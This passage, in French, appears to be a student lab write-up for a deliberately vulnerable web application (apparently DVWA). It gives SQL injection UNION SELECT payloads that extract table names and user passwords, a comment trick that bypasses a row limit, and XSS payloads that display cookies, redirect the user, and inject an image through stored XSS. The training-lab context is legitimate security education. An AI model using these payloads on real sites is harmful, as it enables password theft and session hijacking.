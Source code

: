 * Pour récupérer les noms de tables :

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

* Pour récupérer le mot de passe :

```
1 UNION SELECT user_id, password FROM users
```

**HIGH**
____

Le système est le même qu'en **LOW**, mais il faut mettre un commentaire à la 
fin de la requête pour ignorer la limite de données à récupérer.

## Exercice 3 (XSS)

### Montrer comment récupérer les cookies de l'utilisateur avec une XSS :

Il suffit d'insérer le texte suivant dans l'input de la page HTML :

```html
<script>alert(document.cookies);</script>
```

Ce qui donne une boite d'alerte avec le texte suivant :

```
PHPSESSID=q9dir7tgnft0nejuplmarn13h1; security=low
```

### Comment rediriger l'utilisateur ?

```javascript
window.location.assign("http://www.w3c.com")
```

### XSS Stored, insérer une image :

**LOW**
____

Il suffit de retirer l'attribut `maxlength` sur la balise du `textarea` ce
qui permet de mettre la taille que l'on veut dedans. Ensuite, il suffit de
mettre le texte suivant et de l'envoyer :

```html
<img src="http://bridoz.com/wp-content/uploads/2015/03/215.jpg" />
```

ce qui nous donne un mignon petit Quokka sur notre page :
